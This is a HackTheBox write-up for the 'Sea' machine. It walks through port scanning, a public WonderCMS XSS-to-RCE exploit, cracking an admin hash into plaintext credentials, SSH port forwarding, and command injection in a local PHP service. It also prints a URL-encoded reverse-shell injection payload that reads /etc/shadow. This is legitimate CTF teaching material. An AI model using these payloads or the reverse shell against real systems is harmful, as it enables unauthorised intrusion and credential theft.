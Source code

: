 ```yaml
---
title: HackTheBox -Sea
author: Bonface
date: 2024-12-29 00:00:00 +0000
categories:
  - HackTheBox
  - Machines
tags:
  - HackTheBox
  - linux
  - rustscan
  - cms
  - ssh
  - port_forwarding
  - burpsuite
  - command_injection
image:
  path: /assets/img/HTB/Machines/sea/sea01.png
  alt: Sea.htb
---
```


<div align="center"> <script src="https://app.hackthebox.com/profile/1670709"></script> </div>

---

Sea is a Linux-based machine that requires exploiting multiple vulnerabilities to achieve root access.

For the initial foothold, I identified a vulnerability in Wonder CMS, specifically a Cross-Site Scripting (XSS) attack vector. Using XSS, I performed cookie stealing and session token theft to bypass restrictions, gaining administrative access. This allowed me to install a malicious module, resulting in Remote Code Execution (RCE) on the system.

To escalate privileges, I exploited a locally running service inaccessible from external networks. Using port forwarding, I accessed a web application under development, which revealed a command injection vulnerability. Leveraging this flaw, I successfully escalated privileges and achieved root access to the machine.

# Port Scanning
Using `Rustscan`, I discovered that two TCP ports were open on the target system. This initial port scan provided valuable insight into the services potentially running on the system and helped guide the subsequent penetration testing efforts.

```bash
rustscan -a 10.10.11.28 --ulimit 5000  -t 3000 -- -sV -sC

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa 
...
| ecdsa-sha2-nistp256 
...
|_ssh-ed25519 
...

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Here we have ports 22 for ssh and 80 for a web server.I prioritized starting the investigation with the HTTP protocol on port 80. Focusing on this port allowed for an initial assessment of the web services and applications running on the system, which subsequently guided further exploration and testing of other identified ports.

# Web Enumeration
## Exploring the service
I explored the service using my browser and discovered that it was relatively simple. The service featured a basic home page and another page with a form designed for registering participants in competitions.  
![](../assets/img/HTB/Machines/sea/sea1.png)


## Directory fuzzing
I decided to perform directory fuzzing in the background as i search for an exploit, using `Feroxbuster`, a powerful tool for discovering hidden directories and files on a web server. By running this tool, I was able to systematically probe the server for directories that might not be immediately visible or accessible through standard navigation. This approach helped uncover additional endpoints or resources that could potentially contain vulnerabilities or sensitive information, providing a more comprehensive understanding of the web application's structure and security posture.

```bash
feroxbuster -u http://sea.htb/ -C 404,500
```
![](../assets/img/HTB/Machines/sea/sea4.png)  
The results from `Feroxbuster` raised a suspicion that the target might be a CMS, given the
presence of directories such as `plugins`, `themes`, and `data`.From the source code we can recall the theme being used.
![](../assets/img/HTB/Machines/sea/sea5.png)
Found it challenging to identify the CMS. After researching numerous sites and repositories, I finally found the [exact](https://github.com/robiso/bike) one.
![](../assets/img/HTB/Machines/sea/sea6.png)

While exploring the target, I came across a form for competition registration.
![](../assets/img/HTB/Machines/sea/sea3.png)

The website input field immediately caught my attention. This field seemed potentially vulnerable, as it could be a point of entry for various types of attacks, such as `Server Side Request Forgery(SSRF)`, `Cross-Site Scripting (XSS)`, or even `Remote Code Execution (RCE)` if not properly validated and sanitized.

## Searching exploits
After conducting some reconnaissance, I discovered that the CMS is vulnerable to Cross-Site Scripting (XSS). In addition, I found a public exploit indicating that WonderCMS is susceptible to XSS, which can be leveraged to achieve Remote Code Execution (RCE). The exploit can be found [here](https://github.com/0xDTC/WonderCMS-4.3.2-XSS-to-RCE-Exploits-CVE-2023-41425).
# Exploitation

Here is the workflow of the exploit:
1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.

![](../assets/img/HTB/Machines/sea/sea7.png)

The exploit runs like a charm :) and now we have shell.Upon doing some enumeration i get this:
![](../assets/img/HTB/Machines/sea/sea8.png)
Lets save the hash in a file `hash.txt` then use john to crack the hash.
![](../assets/img/HTB/Machines/sea/sea9.png)
To fix the errors we remove the back slashes and try again.
![](../assets/img/HTB/Machines/sea/sea10.png)
```
username : amay
password : mychemicalromance
```

Now we can easily log in to ssh as `amay`
```bash
ssh amay@10.10.11.28
```
![](../assets/img/HTB/Machines/sea/sea11.png)

# Privilege Escalation
To acquire super user privileges we stumble around with some commands untill we land on this `netstat -tuln` 
![](../assets/img/HTB/Machines/sea/sea13.png)  
we use this command to detect potentially interesting services or custom applications running on the machine.

![](../assets/img/HTB/Machines/sea/sea12.png)
To access the service running on this port `8080` , let's do some port forwarding.

## Port forwarding
For this we shall use SSH Tunneling that will forwards traffic from the target machine through the SSH server to our attacker machine.
```bash
ssh -L 8090:127.0.0.1:8080 amay@10.10.11.28
```

Scanning the port with `nmap` 
```bash
nmap -sC -sV -vv -p8090 127.0.0.1

.....
PORT     STATE SERVICE REASON         VERSION
8090/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.23)
| http-auth: 
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Restricted Area
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).

```

## Service Enumeration
The service is a PHP-based application running on a built-in PHP CLI server, possibly for testing or lightweight development purposes.Let's access it using our browser.
![](../assets/img/HTB/Machines/sea/sea14.png)  
With a simple password reuse we bypass the authentication.
![](../assets/img/HTB/Machines/sea/sea15.png)  
The service seems to be running some shell commands, thus possibility of  command injection.To exploit this will intercept the request using burp suite.
![](../assets/img/HTB/Machines/sea/sea17.png)

## Service Exploitation
From the original request we can see that the commands are url encoded thus lets craft our payload in the same way.
```

%2Fetc%2Fpasswd
%2Fetc%2Fshadow

```

![](../assets/img/HTB/Machines/sea/sea18.png)

After  encoding the payload,the script runs perfectly and we can read both the `/etc/passwd` and the `/etc/shadow` this also confirms that the commands are run as root.To the the root shell we make use of a reverse bash script.

```bash
# the script
;bash -c "sh -i >& /dev/tcp/10.10.16.58/1234 0>&1"

# url encoded
%3bbash+-c+"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.58%2F1234%200%3E%261"||cat

# listener
nc -nlvp 1234
```

![](../assets/img/HTB/Machines/sea/sea20.png)

![](../assets/img/HTB/Machines/sea/sea.png)